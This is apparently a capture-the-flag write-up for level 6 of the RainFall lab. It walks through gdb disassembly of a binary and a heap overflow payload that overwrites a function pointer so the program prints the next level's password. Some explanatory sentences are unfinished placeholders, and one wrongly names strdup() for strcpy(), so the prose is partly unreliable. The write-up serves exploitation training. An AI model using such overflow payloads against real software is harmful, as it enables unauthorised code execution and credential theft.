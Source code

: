 # Level 6

- Once logged in, you will see a binary `level6`

```
[???]$ ssh level6@localhost -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level6@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```

let's run this and see what this does

```
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$
level6@RainFall:~$ ./level6 adsfasdfa
Nope
level6@RainFall:~$
```

Now, finally, it does something different from last levels.

by taking a look at the binary, there are three functions we want to take a look
```
gdb-peda$ info functions
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
gdb-peda$
```

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   ebp
   0x0804847d <+1>:	mov    ebp,esp
   0x0804847f <+3>:	and    esp,0xfffffff0
   0x08048482 <+6>:	sub    esp,0x20
   0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>		; allocates 64 bytes
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>		; allocates 4 bytes
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:	mov    edx,0x8048468				; address of m
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx			; eax = edx -> malloc(4) = m;
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:	add    eax,0x4
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>		; strcpy of buf (= malloc(64)) to m
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:	call   eax							; call buf
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```

```
gdb-peda$ disass m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   ebp
   0x08048469 <+1>:	mov    ebp,esp
   0x0804846b <+3>:	sub    esp,0x18
   0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1		; 0x80485d1:	 "Nope"
   0x08048475 <+13>:	call   0x8048360 <puts@plt>			; puts "Nope"
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
```

```
gdb-peda$ disass n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   ebp
   0x08048455 <+1>:	mov    ebp,esp
   0x08048457 <+3>:	sub    esp,0x18
   0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0		; 0x80485b0:	 "/bin/cat /home/user/level7/.pass"
   0x08048461 <+13>:	call   0x8048370 <system@plt>		; system(0x80485b0) = system("/bin/cat /home/user/level7/.pass")
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
```
by analyzing the assembly, we can tell the main function allocates memory on heap, and calls function m.
but our goal is to call the function n instead.

Remember, the function `strdup()` is vulnerable, as the function `strcpy()` has vulnerbalility which enables to change a running program's functionality through a buffer overflow.

By passing input to the program below, ......... XXXXXXX

```
level6@RainFall:~$ ./level6 $(python -c "print 'B'*71")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*72")
Segmentation fault (core dumped)
```

another message XXXXXXXXX
```
level6@RainFall:~$ ./level6 $(python -c "print 'B'*72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
